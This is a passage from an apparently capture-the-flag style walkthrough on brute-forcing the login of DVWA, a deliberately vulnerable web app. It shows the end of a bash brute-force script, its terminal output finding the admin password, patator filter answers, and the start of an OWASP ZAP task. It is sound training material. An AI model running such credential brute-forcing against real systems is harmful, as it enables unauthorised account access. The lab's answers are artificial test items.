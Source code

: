 ```
      echo -e "\n\n[i] Found!"
      echo "[i] Username: ${_USER}"
      echo "[i] Password: ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie

┌──(kali㉿kali)-[~/Downloads]
└─$ chmod +x patator.sh

┌──(kali㉿kali)-[~/Downloads]
└─$ ./patator.sh 

[i] Try 801: admin // badgirl
[i] Try 802: admin // andrew1
[i] Try 803: admin // 141414
[i] Try 804: admin // 11111111
[i] Try 805: admin // 1queen
[i] Try 806: admin // 1qazXSW@#
[i] Try 807: admin // 1qaz@WSX


[i] Found!
[i] Username: admin
[i] Password: 1qaz@WSX


```


What action can we use to show only the correct password (the answer includes '  ')?

If only we could IGNORE the login.php results at a certain LOCATION

*-x ignore:fgrep!='Location:login.php'*

What is the admin password? 

*1qaz@WSX*


### Brute forcing - ZAP

 Download Task Files

Congratulations! Not only did you brute force the main login for the admin, but you did it while the security was set to "Impossible" - If this is your first time brute forcing be impressed with yourself, time for tea and medals all round.   
  
But we can't rest on our laurels for long. Remember, we were beaten at the first hurdle with a GUI tool. So let's see if we can't redeem ourselves in that area. Download the userlist.txt we've attached, and let's get started. This task will focus on the use of OWASP ZAP, a great tool for web application pen testing; just remember to take the automated warnings and alerts with a pinch of salt. A good pen tester should manually check listed vulnerabilities reported by automated tools, you'll look silly if it comes to report time, and it turns out the tool (and now, by extension, you) were wrong.  
  
